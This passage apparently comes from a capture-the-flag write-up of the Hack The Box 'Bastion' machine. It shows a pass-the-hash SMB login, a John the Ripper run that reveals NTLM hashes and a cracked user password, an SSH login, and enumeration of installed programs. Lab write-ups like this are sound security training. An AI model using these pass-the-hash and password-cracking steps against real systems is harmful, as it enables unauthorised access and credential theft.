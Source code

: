 ```
root@kali:bastion# pth-smbclient -U L4mpje%aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 //10.10.10.134/Backups
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Try "help" to get a list of possible commands.
smb: \> ls 
  .                                   D        0  Mon Aug  5 21:09:35 2019
  ..                                  D        0  Mon Aug  5 21:09:35 2019
  ASwYWuILip                          D        0  Mon Aug  5 20:51:59 2019
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  oTWBZwpEdv                          D        0  Mon Aug  5 20:51:50 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  tmp                                 A      116  Mon Aug  5 21:09:35 2019
  WindowsImageBackup                  D        0  Fri Feb 22 07:44:02 2019

		7735807 blocks of size 4096. 2788438 blocks available
```
I exported the hash information to a file and passed that to John The Ripper using the rockyou.txt
wordlist, and was able to recover the password for the L4mpje user.
```
root@kali:bastion# john hashes --show --format=nt
Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left
```

# User own

We are able to SSH into the host using the recovered L4mpje password, getting us a nice cmd.exe shell
over SSH.

```
root@kali:bastion# ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134's password:
[screen clear]
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>
```
Looking around the system, we see there's a couple more programs installed on this box than L4mpje-PC.
```
l4mpje@BASTION C:\Users\L4mpje>cd ..\..
l4mpje@BASTION C:\>cd "Program Files (x86)"
l4mpje@BASTION C:\Program Files (x86)>dir
 Volume in drive C has no label.                      
 Volume Serial Number is 0CB3-C487
 
 Directory of C:\Program Files (x86)

22-02-2019  15:01    <DIR>          .                       
22-02-2019  15:01    <DIR>          ..                       
16-07-2016  15:23    <DIR>          Common Files                       
23-02-2019  10:38    <DIR>          Internet Explorer                       
16-07-2016  15:23    <DIR>          Microsoft.NET                       
22-02-2019  15:01    <DIR>          mRemoteNG                       
23-02-2019  11:22    <DIR>          Windows Defender                       
23-02-2019  10:38    <DIR>          Windows Mail                       
23-02-2019  11:22    <DIR>          Windows Media Player                       
16-07-2016  15:23    <DIR>          Windows Multimedia Platform                       
```